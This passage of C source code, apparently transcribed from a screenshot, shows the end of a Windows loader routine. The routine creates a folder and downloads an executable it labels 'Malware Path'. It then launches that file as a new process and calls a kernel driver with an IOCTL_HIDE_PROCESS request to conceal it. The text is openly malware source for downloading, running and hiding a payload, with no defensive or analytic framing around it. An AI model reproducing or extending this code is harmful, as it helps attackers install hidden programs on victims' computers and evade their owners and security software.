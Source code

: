 ```c
        if (!Result) {
            Error = GetLastError();
            if (Error != ERROR_ALREADY_EXISTS) {
                printf("Failed to Create Directory! Error Code: 0x%lx\n", Error);
                return -1;
            }
        }
        printf("[*] Directory Path: %s\n", ExecutablePath);

        int result = snprintf(ExecutablePath, sizeof(ExecutablePath), "%s\\%s", ExecutablePath, ExecutableName);
        if (result < 0 || result >= sizeof(ExecutablePath)) {
            printf("Failed to construct full path!\n");
            return -1;
        }
        printf("[*] Malware Path: %s\n", ExecutablePath);

        Result = DownloadExecutable(ExecutableUrl, ExecutablePath);
        if (!Result) {
            Error = GetLastError();
            if (Error != ERROR_ALREADY_EXISTS) {
                printf("[-] Failed to Download Executable! Error Code: 0x%lx\n", GetLastError());
                return -1;
            }
            printf("[*] The executable is already downloaded.\n");
        }
        else {
            printf("[+] The Executable Downloaded!\n");
        }

        snprintf(PathForUnicode, sizeof(PathForUnicode), "\\??\\%s", ExecutablePath);

        MultiByteToWideChar(CP_ACP, 0, PathForUnicode, -1, UnicodeExecutablePath, 256);
        RtlInitUnicodeString(&ImagePath, UnicodeExecutablePath);

        Status = CreateTargetProcess(ImagePath, &HandleNewProcess);
        if (!NT_SUCCESS(Status)) {
            printf("[-] Failed to Create Process! NTSTATUS Code: 0x%08X\n", Status);
            return -1;
        }
        ProcessID = (HANDLE)(ULONG_PTR)GetProcessId(HandleNewProcess);
        printf("[*] Created Process! Process ID: %lu\n", (ULONG)(ULONG_PTR)ProcessID);

        Result = ConnectDriver(IOCTL_HIDE_PROCESS, &ProcessID, sizeof(ULONG_PTR), NULL, 0);
        if (!Result) {
            printf("[-] Failed to Hide The Process! Error Code: 0x%lx\n", GetLastError());
            CloseHandle(HandleNewProcess);
            return -1;
        }
        printf("[+] The Process has been Hidden!\n");
    }
    CloseHandle(HandleNewProcess);

    return 0;
}
```
